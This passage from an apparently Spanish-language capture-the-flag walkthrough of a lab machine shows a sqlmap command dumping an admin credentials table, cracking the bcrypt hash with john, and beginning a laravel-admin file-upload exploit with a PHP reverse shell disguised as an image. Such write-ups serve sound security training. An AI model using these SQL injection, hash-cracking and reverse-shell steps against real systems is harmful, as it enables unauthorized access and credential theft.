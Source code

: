 
```bash
sqlmap -r $(pwd)/request -p email --level 5 --risk 3 --technique=B --batch -D usage_blog -T admin_users -C username,password --dump
```

Vemos que solo esta el usuario `admin` y su contraseña encryptada.

```bash
Database: usage_blog
Table: admin_users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydv************************ |
+----------+--------------------------------------------------------------+
```

Ahora procedemos a romper el `hash`.

```bash
john --wordlist=diccionario.txt hash
```

## Ganando acceso

Tratamos de usar ese usuario y su credencial para conectarnos por el subdominio encontrado previamente y vemos que es posible. Una vez dentro, estamos ante un panel en donde vemos algunas dependencias. Aquí la de interés sería `laravel-admin` en donde vemos una versión la cual tiene una vulnerabilidad. Si nos vamos a [esta](https://flyd.uk/post/cve-2023-24249/){:target="_blank"} web, nos explican cómo explotarlo.

Lo primero que vamos a hacer es crear una `revershel` con ayuda de [esta](https://www.revshells.com/){:target="_blank"} web, elegimos `PHP PentestMonkey` y lo guardamos en un archivo con extensión `.jpg`. Ahora nos vamos al apartado de configuración.

![](/assets/img/HTB-Usage/3_Usage.png)
